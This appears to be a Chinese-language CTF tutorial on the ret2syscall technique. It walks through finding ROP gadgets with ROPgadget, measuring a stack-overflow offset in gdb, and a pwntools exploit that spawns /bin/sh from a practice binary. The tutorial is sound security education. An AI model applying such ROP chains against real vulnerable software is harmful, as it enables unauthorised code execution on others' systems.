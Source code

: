 ```yaml
---
title: 【PWN】ret2syscall
---
```


## 原理

ret2syscall 即控制程序执行系统调用来获取 shell
什么是系统调用？
- 操作系统提供给用户的编程接口
- 是提供访问操作系统所管理的底层硬件的接口
- 本质上是一些内核函数代码，以规范的方式驱动硬件
- x86 通过 int 0x80 指令进行系统调用、amd64 通过 syscall 指令进行系统调用
mov eax, 0xb
mov ebx, [“/bin/sh”] 
mov ecx, 0
mov edx, 0
int 0x80
=> execve("/bin/sh",NULL,NULL)
![1.jpg](/images/ret2syscall/1.jpg)
## 例题
链接：https://pan.baidu.com/s/19ymHlZZmVGsJHFmmlwww0w 提取码：r4el 
首先checksec 看一下保护机制

![2.jpg](/images/ret2syscall/2.jpg)

接着使用ida打开分析

![3.jpg](/images/ret2syscall/3.jpg)

gets函数存在明显的栈溢出，但是这次没有后门函数，NX防护也打开了，那么就要换一种套路了，通过系统调用拿到shell
我们需要控制eax，ebx，ecx，edx的值，可以使用ROPgadget这个工具帮我们找到所需的代码片段。
首先寻找控制 eax 的 gadgets
ROPgadget --binary ret2syscall --only 'pop|ret' | grep 'eax'

![4.jpg](/images/ret2syscall/4.jpg)

然后寻找控制ebx的
ROPgadget --binary ret2syscall --only 'pop|ret' | grep 'ebx'，其中红色框框圈出来的能让我们控制余下的寄存器，就不用再接着找了。

![5.jpg](/images/ret2syscall/5.jpg)

接着寻找程序中有没有int 80指令，ROPgadget --binary ret2syscall --only 'int'

![6.jpg](/images/ret2syscall/6.jpg)

最后我们还需要找到一个字符串/bin/sh，ROPgadget --binary ret2syscall --string '/bin/sh'

![7.jpg](/images/ret2syscall/7.jpg)

这样我们就可以构造0xb的系统调用，具体要溢出多少字节可以使用gdb动态调试获取，
gdb ret2syscall
b main（在main函数下断点）
r（让程序跑起来）
n（单步执行）
一直走到gets函数输入字符串AAAAAAAA

![8.jpg](/images/ret2syscall/8.jpg)

然后使用stack 35命令查看栈内容

![9.jpg](/images/ret2syscall/9.jpg)

b8 - 4c = 6c，再加上ebp的4个字节，总共需要填充0x70个字节到返回地址
最后成功利用的堆栈图如下

![10.jpg](/images/ret2syscall/10.png)

exp：

```python
from pwn import *

sh = process('./ret2syscall')

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_80 = 0x08049421
bin_sh = 0x080be408

payload = flat(['A' * 0x70,  pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, bin_sh, int_80])

sh.sendline(payload)

sh.interactive()
```
